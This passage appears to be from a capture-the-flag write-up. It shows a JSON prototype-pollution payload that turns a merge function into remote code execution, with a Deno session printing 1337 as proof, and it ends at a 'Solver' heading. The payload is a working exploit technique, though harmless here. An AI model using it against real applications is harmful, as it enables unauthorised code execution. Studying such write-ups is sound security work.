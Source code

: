 Thus, the following JSON causes RCE!
```json
{
  "constructor": {
    "prototype": {
      "return": {
        "__custom__": true,
        "type": "Function",
        "args": [
          "console.log(1337)"
        ]
      }
    }
  },
  "toString": {
    "caller": {}
  }
}
```

Execution result:
```javascript
$ deno
...

> merge({}, {
  "constructor": {
    "prototype": {
      "return": {
        "__custom__": true,
        "type": "Function",
        "args": [
          "console.log(1337)"
        ]
      }
    }
  },
  "toString": {
    "caller": {}
  }
})
1337
1337
Uncaught TypeError: 'caller', 'callee', and 'arguments' properties may not be accessed on strict mode functions or the arguments objects for calls to them
    at merge (<anonymous>:33:19)
    at merge (<anonymous>:33:7)
    at <anonymous>:2:1
>
```

### Solver
